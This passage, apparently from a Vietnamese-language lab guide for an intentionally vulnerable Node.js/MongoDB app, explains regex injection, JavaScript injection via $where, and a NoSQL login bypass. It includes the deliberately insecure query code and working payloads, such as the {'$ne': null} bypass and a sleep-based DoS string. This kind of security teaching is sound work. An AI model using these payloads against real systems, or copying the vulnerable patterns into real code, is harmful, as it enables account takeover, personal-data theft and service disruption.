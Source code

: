 ### 2. **Regex Injection - Data Extraction**

**Endpoint:** `POST /api/search`

**Vulnerable Code:**
```javascript
const users = await db.collection('users').find({
  username: { $regex: searchTerm }  // ← Không sanitize regex!
}).toArray();
```

**Exploit:**
```
^a      → Tìm users bắt đầu bằng 'a'
^admin  → Enumerate username
.*      → Trả về tất cả users
```

**Kết quả:** Trích xuất danh sách tất cả users!

---

### 3. **JavaScript Injection với $where**

**Endpoint:** `POST /api/check-username`

**Vulnerable Code:**
```javascript
const user = await db.collection('users').findOne({
  $where: `this.username == '${username}'`  // ← CỰC KỲ NGUY HIỂM!
});
```

**Exploit:**
```javascript
'; return true; //
'; sleep(5000); return true; //  // DoS attack
```

**Kết quả:** Thực thi arbitrary JavaScript code trên server!

---

## 🎯 HƯỚNG DẪN KHAI THÁC CHI TIẾT

### Attack 1: Bypass Login (NoSQL Injection)

**Mục tiêu:** Đăng nhập thành admin mà không biết password

**Các bước:**
1. Mở form "Vulnerable Login"
2. Nhập vào **Username:** `{"$ne": null}`
3. Nhập vào **Password:** `{"$ne": null}`
4. Click "Login (Vulnerable)"

**Kết quả mong đợi:**
- ✅ Login thành công
- Hiển thị thông tin admin: email, role, salary, SSN
- Không cần biết password thật!
